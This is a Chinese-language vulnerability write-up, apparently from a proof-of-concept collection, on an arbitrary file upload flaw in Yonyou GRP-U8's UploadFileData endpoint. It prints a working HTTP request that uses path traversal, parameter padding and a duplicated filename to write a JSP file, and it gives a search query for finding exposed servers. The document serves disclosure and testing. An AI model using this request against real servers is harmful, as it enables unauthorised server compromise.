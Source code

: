 # 用友 GRP-U8 UploadFileData 任意文件上传漏洞

# 用友 GRP-U8 UploadFileData 任意文件上传漏洞

## 漏洞描述

用友 GRP-U8 UploadFileData接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
用友 GRP-U8
```

## 网络测绘

```
app="用友-GRP-U8"
```

## 漏洞复现

登录页面

![image-20220824142321531](/images/202208241423596.png)

验证POC

```
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=59227D2C93FE3E8C2626DA625CE710F9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```

![image-20220824142335805](/images/202208241423854.png)

访问写入的文件

```
/R9iPortal/debugg.jsp
```

![image-20220824142350845](/images/202208241423890.png)

